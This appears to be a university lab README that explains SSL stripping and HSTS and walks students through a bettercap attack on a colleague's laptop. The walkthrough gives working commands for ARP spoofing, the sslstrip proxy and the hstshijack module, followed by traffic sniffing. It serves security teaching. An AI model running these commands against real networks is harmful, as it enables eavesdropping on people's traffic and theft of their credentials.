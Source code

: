 # SSLSTRIP + HSTSHIJACK

**SSL Stripping** or an **SSL Downgrade Attack** is an attack used to circumvent the security enforced by SSL certificates on HTTPS-enabled websites. In other words, SSL stripping is a technique that downgrades your connection from secure HTTPS to insecure HTTP and exposes you to eavesdropping and data manipulation.

**HTTP Strict Transport Security (HSTS)** is a policy mechanism that helps to protect websites against man-in-the-middle attacks such as protocol downgrade attacks and cookie hijacking. It allows web servers to declare that web browsers (or other complying user agents) should automatically interact with it using only HTTPS connections, which provide Transport Layer Security (TLS/SSL), unlike the insecure HTTP used alone.

The HSTS Policy is communicated by the server to the user agent via an HTTP response header field named **Strict-Transport-Security**. HSTS Policy specifies a period of time during which the user agent should only access the server in a secure fashion. Websites using HSTS often do not accept clear text HTTP, either by rejecting connections over HTTP or systematically redirecting users to HTTPS (though this is not required by the specification). The consequence of this is that a user-agent not capable of doing TLS will not be able to connect to the site.

## SSLSTRIP + HSTSHIJACK with BETTERCAP 
### **Goal**
In this session, our goal is to clone start an **sslstrip** attack against a victim also using the **hstshijack** module in order to avoid website **hsts** protection policy.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Login as root and install **bettercap**

        sudo su
        apt install bettercap

 2. Check your `iface` name

        iw dev

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/1.%20iw%20dev.png?raw=true)

 3. Run **bettercap** over your **iface**

        bettercap -iface wlp59s0
 4. Update **bettercap** mudules **(caplets)**
        
        caplets.updates
        caplets.show

 5. Check if **hstshijack/hstshijack** is installed

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/2.%20caplets.png?raw=true)

 6. Run **help** and check enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/3.%20modules%20enabled.png?raw=true)


 7. Set the **sslstrip** to **true** and enable **hstshijack** module:
       
        set http.proxy.sslstrip true
        hstshijack/hstshijack

 8. Check (again) enabled modules

        help

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/4.%20modules%20enabled.png?raw=true)

 9. Finally, enable **net.probe**, **net.sniff** and **arp.spoof** modules (respect this order!)

        net.probe on
        net.sniff on
        arp.spoof on

 10. Check (again and again) enabled modules

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/5.%20modules%20enabled.png?raw=true)

 11. On the **Victim** side try to navigate and https website
 
 12. Sniff the traffic

![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/sslstrip/6.%20sniffing.png?raw=true)

 13. Stop **bettercap**

        quit

**Attention:** modern browser are able to prevent this kind of attack. If you are not to fully replicate the attack on your personal laptop, don't worry, try on the GNS3 laboratory (or study more in order to made it compatible also with modern technologies)